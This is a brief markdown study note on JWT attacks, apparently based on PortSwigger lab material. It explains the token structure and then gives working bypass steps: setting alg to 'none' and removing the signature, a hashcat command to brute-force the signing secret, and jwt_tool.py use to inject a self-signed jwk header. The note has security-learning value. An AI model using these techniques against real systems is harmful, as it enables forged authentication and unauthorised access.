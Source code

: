 # JWT : JSON WEB Token

standardized format for sending cryptographically signed JSON data between systems.
A JWT consists of 3 parts: a header, a payload, and a signature. These are each separated by a dot, as shown in the following example.

    eyJraWQiOiI5MTM2ZGRiMy1jYjBhLTRhMTktYTA3ZS1lYWRmNWE0NGM4YjUiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTY0ODAzNzE2NCwibmFtZSI6IkNhcmxvcyBNb250b3lhIiwic3ViIjoiY2FybG9zIiwicm9sZSI6ImJsb2dfYXV0aG9yIiwiZW1haWwiOiJjYXJsb3NAY2FybG9zLW1vbnRveWEubmV0IiwiaWF0IjoxNTE2MjM5MDIyfQ.SYZBPIBg2CRjXAJ8vCER0LA_ENjII1JakvNQoP-Hw6GG1zfl4JyngsZReIfqRvIAEi5L4HV0q7_9qGhQZvy9ZdxEJbwTxRs_6Lb-fZTDpW6lKYNdMyjw45_alSCZ1fypsMWz_2mTpQzil0lOtps5Ei_z7mM7M8gCwe_AGpI53JxduQOaB5HkT5gVrv9cKu9CsW5MS6ZbqYXpGyOG5ehoxqm8DL5tFYaW3lB50ELxi0KsuTKEbD0t5BCl0aCR2MBJWAbN-xeLwEenaqBiwPVvKixYleeDQiBEIylFdNNIMviKRgXiYuAvMziVPbwSgkZVHeEdF5MQP1Oe2Spac-6IfA

The header and payload parts of a JWT are just base64url-encoded JSON objects. The header contains metadata about the token itself, while the payload contains the actual "claims" about the user. For example, you can decode the payload from the token above to reveal the following claims:

    {
        "iss": "portswigger",
        "exp": 1648037164,
        "name": "Carlos Montoya",
        "sub": "carlos",
        "role": "blog_author",
        "email": "carlos@carlos-montoya.net",
        "iat": 1516239022
    }

# JWT auth bypass via flawed signature verification

Example, 

    {
        kid":"3601f8c8-61c2-403b-8f0f-6889d4853ffb",
        "alg":"none"
    }
change alg to none, and delete signature in the JWT

# Brute-force jwt to find password 

    hashcat -a 0 -m 16500 <jwt> <wordlist>

# Header injections 

According to specifications of JWT only `alg` header is mandatory, there are other headers that are used in JWT and attracts hackers. 
    
    jwk (json web key)
    jwu (json web url)
    kid  Provides an ID that servers can use to identify 

## Injecting self-signed JWTs via the jwk parameter
A JWK (JSON Web Key) is a standardized format for representing keys as a JSON object.
Example :

    {
        "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
        "typ": "JWT",
        "alg": "RS256",
        "jwk": {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
            "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9m"
        }
    }

when it's like this, we generate out own RSA key pairs, and sign the JWT outselves.
using jwt_tools
take the token into jwt_tools.py

    python3 jwt_tool.py <JWT token> -X i -T

and then change the paramateres for the attack 
PS : watchout the KID needs to be the same in both fields

// to create own script helpful link 
https://ktor.io/docs/rsa-keys-generation.html#populating-the-jwks-json-file